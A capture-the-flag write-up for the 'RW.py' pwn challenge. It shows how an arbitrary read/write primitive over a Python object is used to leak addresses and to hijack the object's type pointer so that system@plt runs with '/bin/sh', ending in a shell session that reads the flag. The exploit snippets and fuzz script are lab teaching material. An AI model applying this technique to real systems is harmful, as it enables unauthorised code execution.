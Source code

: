 ##  RW.py

points: 335


In the attachment we have `rw.py` and a dockerfile.
These are the contents of rw.py

```python
#!/usr/bin/env python3

import ctypes

a = [{}, (), [], "", 0.0]
while True:
    try:
        inp = input("> ")
        cmd, idx, *val = inp.split()
        idx = int(idx)
        match cmd:
            case "r":
                print(a[idx])
            case "w":
                ctypes.cast(
                    id(a) + idx, ctypes.POINTER(ctypes.c_char)
                )[0] = int(val[0])
            case _:
                break
    except Exception as e:
        print("error:", e)
```

On analyzing this, we have an object `a` over which we have arbitrary write and read.
`a` here is a `PyObject`
Here's how they are defined:

```c
typedef struct {
     Py_ssize_t ob_refcnt;   /* object reference count */
     PyTypeObject* ob_type;  /* object type */
};
```

Alright let's try to put the arbitrary read and write to use.

For reading we hvae to give `r [num]` as our input, and we only give till 4, after 4 it gives out of index error, maybe we can change that..

To find our python object while debugging, i start writing `0xdeadbeef` in the start, it will only overwrite `ob_refcnt` field which we dont really care about.
Once thats done we can use `search -t qword 0xdeadbeef` command in pwndbg to get the address of our object

```
Note: For degbugging, you can run the rw.py file and attach gdb to it by finding the pid of python process by making use of `ps aux` and `sudo gdb -x ~/.gdbinit -p <pid>.` 
```

```
pwndbg> search -t dword   0xdaedbeef
Searching for a 4-byte integer: b'\xef\xbe\xed\xda'
[anon_7f58bbc00] 0x7f58bbc01e80 0xdaedbeef
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbeef	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x0000000000000005	0x00007f58bbc9de60
```

Here we can notices the 0x5 in 0x7f58bbc01e90
if we try to change it to 0xff by doing `w 16 255`
```
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbef3	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x00000000000000ff	0x00007f58bbc9de60
```
and we get

```
> w 16 255
> r 5
Segmentation fault
```

ok.. it's not out of index anymore, on gdb it showed it wasn't able to dereference 0, it's a matter of using the right index which we can find by making a short fuzz script for the docker environment

```python
def fuzz():
    for i in range(8500,10500):
        try:
            #r = process("./rw.py")
            r = remote('127.0.0.1',1337)
            r.sendlineafter(b'>',b'w 16 255')
            r.sendlineafter(b'>',b'w 17 255')
            r.sendlineafter(b'>',b'r '+str(i).encode())
            l = r.recvline()
            if l and b'0x' in l :
                log.info(f"at {i} : {l}")
                pause()
            r.close()
        except EOFError:
            pass
```

I find innteresting leaks at 340 and 706

```
> w 16 255
> w 17 255
> r 340
<cell at 0x7fe1b10955d0: str object at 0x7fe1b109b870>
> r 706
{<weakref at 0x7fe1b10a4400; to 'type' at 0x557664c44ba0 (tuple)>, <weakref at 0x7fe1b10a44a0; to 'type' at 0x557664c447c0 (str)>, <weakref at 0x7fe1b10a45e0; to 'type' at 0x557664c46040 (memoryview)>, <weakref at 0x7fe1b10a4540; to 'type' at 0x557664c45820 (range)>}
>
```

Debuggging the process in container and using vmmap i determine that using 304 i get leak from fixed offset from our object `a` and from 706 i get a leak of `/usr/bin/python3.10` which looks like `0x55..`

```
Note: the process in container can be debugged in same way earlier```
```

I also extract the `/usr/bin/python3.10` from container to make it easy for me to run ROPgadget on it.

Now we have a leak which can gives the address of out PyObject and a leak for `/usr/bin/python3.10`, usually on exiting python should call a deconstructor on our object, that would make an interesting code path to exploit
Since python stores `ob_type` pointer, it points to a struct with a lot of information for the object and functions which get called under the hood, something for deallocation too.
So i'll modify obj+8 to write '0x41414141` and see what happens.

```
> w 8 65
> w 9 65
> w 10 65
> w 11 65
> _ 0
```

and in gdb we see
![gdb_output](./hmm.png)


And we see this interesting instruction `0x5594eeb993de    call   qword ptr [r14 + 0xb8]`

where `r14` has the modified pointer from `obj+8` which we can notices because 0x41 in decimal is 65.

So while exiting it will load `obj+8` in r14 and call whatever is at `\*(obj+8)+0xb8`, so we can modify it to point to somewhere in object area because we can control this area with arbitrary write

I decide to do something like this
```c
*(obj+8)=obj+16-0xb8
```
and write something at `obj+16`


I was stuck here for a very long time, since i was trying ropping and using syscalls, unable to pivot the stack. Having no leak for system i couldnt call system directly from there, i tried fuzzing huge indexes to get leaks like those

Then i realized the python binary might have plts which resolve the address thanks to gpt :')

```
$ objdump -d python3.10 | grep system
000000000006f460 <system@plt>:
   6f464:	f2 ff 25 9d 2c 4f 00 	bnd jmp *0x4f2c9d(%rip)        # 562108 <system@GLIBC_2.2.5>
   d0407:	e8 54 f0 f9 ff       	call   6f460 <system@plt>
```

awesome.

So we can call system, and `RDI` has points to `obj` so we can write the `/bin/sh` str at obj, write `system@plt` at `obj+16` and make `obj+8` `obj+16-0xb8`
```python
w64(r,obj,obj,u64(b'/bin/sh\x00'))
w64(r,obj+8,obj,(obj+16)-0xb8)
w64(r,obj+16,obj,system_plt)
r.sendlineafter(b'>',b'_ 0')
```

With this our payload is ready and can exit to get the shell!!





```
(.venv) [crabsnk@void rw]$ python solve.py
[+] Opening connection to localhost on port 1337: Done
[*] l1 -> 0x7fc5f0a195d0
[*] l2 -> 0x7fc5f0a1f870
[*] obj -> 0x7fc5f0a55a00
[*] /bin/python - > 0x55a608d56000
[*] system_plt at -> 0x55a608dc5464
[*] Paused (press any to continue)
[*] Switching to interactive mode
 $ ls
flag.txt
get-flag
pwn
$ cat flag.txt
get dis man
$
```

the [solve script](./solve.py)
